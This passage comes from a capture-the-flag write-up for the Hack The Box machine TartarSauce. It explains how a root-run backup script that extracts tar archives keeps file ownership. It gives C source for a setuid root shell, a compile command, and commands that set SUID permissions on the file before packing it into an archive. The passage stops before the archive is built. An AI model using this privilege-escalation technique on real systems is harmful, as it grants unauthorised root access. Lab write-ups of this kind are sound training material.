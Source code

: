 ```sh
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

All the explanation here I got from [0xdf](https://0xdf.gitlab.io/2018/10/21/htb-tartarsauce-part-2-backuperer-follow-up.html#root-shell) and [ippsec](https://www.youtube.com/watch?v=9MeBiP637ZA) writeups. So check them for more explanations.

The whole problem relay in the fact of the permissions of the tar decompression. If we put and file in a compressed file, owned by root (not root, but the user id 0, which is root). When the system decompress it, as root, it will keep the permission of it. And will let the root as the owner of this file

But when we can abuse this information?

The backuepre file makes the extraction `/bin/tar -zxvf $tmpfile -C $check`, and how this is done by root. It will keep the permisions.

We create the file in our kali system.

First the suid Shell file

```c
int main(void){
  setresuid(0, 0, 0);
  system("/bin/bash");
}
```

```sh
gcc -m32 -o file file.c
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-22-HackTheBox-TartarSauce/2021-12-22-HackTheBox-TartarSauce%2003:24:51.png)

Now the tar.gz file

```sh
mkdir -p  var/www/html
cp file var/www/html/
chmod 6555 var/www/html/file
ls -la var/www/html/
```
